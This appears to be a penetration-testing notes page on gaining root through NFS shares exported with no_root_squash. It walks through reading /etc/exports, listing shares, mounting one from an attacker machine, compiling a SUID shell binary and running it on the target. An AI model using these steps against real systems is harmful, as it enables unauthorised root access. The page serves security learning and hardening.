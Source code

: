 # NFS

**Refer to the following notes for more information on NFS:**&#x20;

{% embed url="https://jarrettgxz-sec.gitbook.io/offensive-security/network-services-vulnerability-scanning-and-exploitation/111-2049-rpc-nfs" %}

**From the target machine** (remote shell)

The _NFS_ (Network File Sharing) configuration is found in the `/etc/exports`file. The important element for privilege escalation is present with the `no_root_squash` value. With this value, we are able to create a `SUID` executable binary on the target machine via the _NFS_ connection, and execute it to gain a root shell.

```bash
$ cat /etc/exports
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
...
```

**We can use the `showmount` command to show the mountable shares on the target machine** (from our attacker machine)

```bash
$ showmount -e <target_ip_add>
Export list for <target_ip_add>:
/tmp                      *
/home/backup              *


# nmap with a specialized script can be used to discover NFS mount points too
$ nmap --script=... <target_ip_addr> over
```

**To be ran as root on the attacker machine** (mount the file system for the target machine)

1. Create temporary directory
2. Mount the shares on the target machine (the mount point should be one with the `no_root_squash` option set)
3. Create a _**C**_ program to gain root shell
4. Compile the _**C**_ code to binary
5. Set the SUID bit on the output binary

```bash
root@attacker# mkdir /tmp/tmp_mnt_folder (1)
root@attacker# mount -o rw <target_ip_addr>:<mount_point> /tmp/tmp_mnt_folder (2)

root@attacker# cd /tmp/tmp_mnt_folder
root@attacker:/tmp/tmp_mnt_folder# vim shell.c (3)
...
# load the shell program
...
root@attacker:/tmp/tmp_mnt_folder# gcc shell.c -o shell (4)
root@attacker:/tmp/tmp_mnt_folder# chmod +s shell (5)
```

**On the target machine**

1. Navigate to the directory where the `SUID` bit binary is present
2. Run the binary to gain a root shell

```bash
$ ./shell

root@target# id
...
```
